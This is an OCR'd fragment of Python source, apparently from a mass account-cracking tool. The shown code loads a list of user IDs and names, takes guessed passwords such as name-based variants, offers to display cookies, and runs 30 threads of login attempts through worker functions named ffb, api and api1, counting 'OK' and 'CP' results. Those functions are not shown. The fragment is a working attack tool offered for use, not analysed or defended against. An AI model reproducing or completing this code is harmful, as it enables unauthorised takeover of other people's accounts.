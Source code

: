                                 print(' PUT FILE EXAMPLE :  /sdcard/File.trt.etc..')
                                linex()
                                file = input(' PUT FILE PATH\033[1;37m: ')
                                try:
                                        fo = open(file,'r').read().splitlines()
                                except FileNotFoundError:
                                        print(' FILE LOCATION NOT FOUND ')
                                        time.sleep(1)
                                        menu()
                                clear()
                                print('[1] METHOD NEW (1)')
                                print('[2] METHOD OLD/NEW (2)')
                                print('[3] METHOD OLD (3)')
                                linex()
                                mthd=input(' CHOOSE : ')
                                linex()
                                clear()
                                plist = []
                                try:
                                        ps_limit = int(input(' HOW MANY PASSWORDS DO YOU WANT TO ADD ? '))
                                except:
                                        ps_limit =1
                                linex()
                                clear()
                                print('\033[1;32m EXAMPLE : first last,firtslast,first123')
                                linex()
                                for i in range(ps_limit):
                                        plist.append(input(f' PUT PASSWORD {i+1}: '))
                                linex()
                                clear()
                                print(' DO YOU WENT SHOW COOKIES :? (Y/N): ')
                                linex()
                                cx=input(' CHOOSE : ')
                                if cx in ['y','Y','yes','Yes','1']:
                                        pcp.append('y')
                                else:
                                        pcp.append('n')
                                with tred(max_workers=30) as crack_submit:
                                        clear()
                                        total_ids = str(len(fo))
                                        
                                        print(' TOTAL ACCOUNT : \033[1;32m'+total_ids+f' ')
                                        print("\033[1;37m CRACKING STARTED...\033[1;37m")
                                        linex()
                                        for user in fo:
                                                ids,names = user.split('|')
                                                passlist = plist
                                                if mthd in ['1','01']:
                                                        crack_submit.submit(ffb,ids,names,passlist)
                                                elif mthd in ['2','02']:
                                                        crack_submit.submit(api,ids,names,passlist)
                                                elif mthd in ['3','03']:
                                                        crack_submit.submit(api1,ids,names,passlist)
                                print('\033[1;37m')
                                linex()
                                print(' THE PROCESS HAS COMPLETED')
                                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                                linex()
                                input(' PRESS ENTER TO BACK ')
                                os.system('python usmi.py')
                        elif xd in ['2','02']:
                                pak()
                        elif xd in ['3','03']:
                                exit()